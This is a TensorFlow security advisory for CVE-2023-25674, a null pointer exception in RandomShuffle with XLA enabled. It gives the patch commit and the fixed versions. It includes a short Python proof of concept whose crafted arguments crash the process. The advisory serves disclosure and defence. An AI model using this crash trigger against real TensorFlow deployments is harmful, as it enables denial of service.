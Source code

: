 ## TFSA-2023-179: NPE in RandomShuffle with XLA enable

### CVE Number
CVE-2023-25674

### Impact
NPE in RandomShuffle with XLA enable 
```python
import tensorflow as tf

func = tf.raw_ops.RandomShuffle
para = {'value': 1e+20, 'seed': -4294967297, 'seed2': -2147483649}

@tf.function(jit_compile=True)
def test():
   y = func(**para)
   return y

test()
```

### Patches
We have patched the issue in GitHub commit [728113a3be690facad6ce436660a0bc1858017fa](https://github.com/tensorflow/tensorflow/commit/728113a3be690facad6ce436660a0bc1858017fa).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx

